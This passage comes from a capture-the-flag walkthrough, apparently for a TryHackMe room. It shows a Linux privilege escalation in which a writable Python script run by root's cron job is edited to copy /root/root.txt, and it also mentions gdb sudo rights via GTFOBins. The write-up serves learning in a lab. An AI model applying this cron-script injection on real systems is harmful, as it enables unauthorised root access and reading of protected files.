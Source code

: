 ```
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
So we see that this file is running frequently and as root. If we look at out current permissions on the file, we can read, write and execute. So we could actually change the command on the inside? Before that lets check out what we can actually do with a sudo -l
```
www-data@ubuntu-xenial:/home/------$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (------) NOPASSWD: /var/www/gdb
```
Right, so we can as --------- run Gnome De-Bugging. My next port of call will be the [GTFOBINS](https://gtfobins.github.io/) to check out gdb and what it can do for us. However, I keep being drawn back to the file I should be able to amend as www-data.

Using vim, nano wasn't available, I amended the file to get the root flag, from where I expected it to be - /root/root.txt
```
www-data@ubuntu-xenial:/home/d4rckh$ vim cleanup.py 

# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
        os.system('cat /root/root.txt > /tmp/root.txt')
except:
        sys.exit()
~                                                                               
~                      
```
After a few moments, I changed to /tmp and found the file I needed.
```
www-data@ubuntu-xenial:/home/------$ cd /tmp/
www-data@ubuntu-xenial:/tmp$ ls
root.txt
www-data@ubuntu-xenial:/tmp$ cat root.txt 
<insert root flag here>
www-data@ubuntu-xenial:/tmp$ 
```
Now to be honest, I really liked this room. I spend a good few hours going down different avenues. The image file that had a dBase III DBT file within it, I couldn't view. The trials and tribulations of moving between users by following GTFObins gdb commands, was all part of lifes rich tapestry!!.

When I am a bit more confident in these other tools, I will definately come back and find new ways to beat it. 

Thanks csenox :)

K

<script src="https://tryhackme.com/badge/65208"></script>
